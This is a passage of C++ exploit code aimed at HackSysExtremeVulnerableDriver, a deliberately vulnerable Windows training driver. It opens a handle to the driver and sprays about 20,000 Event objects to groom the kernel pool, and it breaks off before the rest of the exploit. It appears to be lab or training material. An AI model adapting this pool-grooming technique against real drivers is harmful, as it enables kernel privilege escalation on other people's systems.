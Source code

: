 ```cpp
    ULONG_PTR ZeroBits,
    PSIZE_T AllocationSize,
    ULONG AllocationType,
    ULONG Protect
    );

vector<HANDLE> defragment_handles;
vector<HANDLE> sequential_handles;

HANDLE grab_handle() {

    HANDLE hFile = CreateFileA(DEVICE_NAME,
        FILE_READ_ACCESS | FILE_WRITE_ACCESS,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile == INVALID_HANDLE_VALUE) {
        cout << "[!] No handle to HackSysExtremeVulnerableDriver\n";
        exit(1);
    }

    cout << "[>] Grabbed handle to HackSysExtremeVulnerableDriver: " << hex
        << hFile << "\n";

    return hFile;
}

void spray_pool() {

    cout << "[>] Spraying pool to defragment...\n";
    for (int i = 0; i < 10000; i++) {

        HANDLE result = CreateEvent(NULL,
            0,
            0,
            L"");

        if (!result) {
            cout << "[!] Error allocating Event Object during defragmentation\n";
            exit(1);
        }

        defragment_handles.push_back(result);
    }
    cout << "[>] Defragmentation spray complete.\n";
    cout << "[>] Spraying sequential allocations...\n";
    for (int i = 0; i < 10000; i++) {

        HANDLE result = CreateEvent(NULL,
            0,
            0,
            L"");

        if (!result) {
            cout << "[!] Error allocating Event Object during sequential.\n";
            exit(1);
        }

        sequential_handles.push_back(result);
    }
```